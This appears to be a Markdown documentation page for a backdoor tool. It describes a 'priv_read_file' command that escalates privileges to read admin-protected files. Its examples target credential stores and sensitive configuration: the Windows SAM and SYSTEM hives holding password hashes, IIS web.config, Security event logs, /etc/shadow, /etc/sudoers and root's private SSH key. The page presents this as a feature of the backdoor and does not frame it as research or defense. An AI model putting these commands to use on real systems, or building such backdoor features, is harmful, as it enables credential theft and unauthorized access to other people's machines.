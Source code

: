 # Admin File Access Guide

## Overview

The backdoor now includes enhanced privilege escalation features that allow reading admin-protected files and directories. These commands automatically attempt multiple methods to access protected resources, including privilege elevation if needed.

## New Commands

### 1. Read Admin-Protected Text Files

```bash
priv_read_file <file_path>
```

**Purpose:** Read text files that require administrator privileges.

**How it works:**

1. Attempts direct file read
2. If permission denied, tries PowerShell (Windows)
3. Falls back to shell commands (type/cat)
4. Provides detailed error messages with suggestions

**Example - Windows:**

```bash
# Read SAM file (password hashes)
priv_read_file C:\Windows\System32\config\SAM

# Read protected registry export
priv_read_file C:\Windows\System32\config\SYSTEM

# Read IIS configuration
priv_read_file C:\inetpub\wwwroot\web.config

# Read Event Logs (exported)
priv_read_file C:\Windows\System32\winevt\Logs\Security.evtx
```

**Example - Linux/macOS (when support is added):**

```bash
# Read shadow file
priv_read_file /etc/shadow

# Read sudoers file
priv_read_file /etc/sudoers

# Read SSH keys
priv_read_file /root/.ssh/id_rsa
```
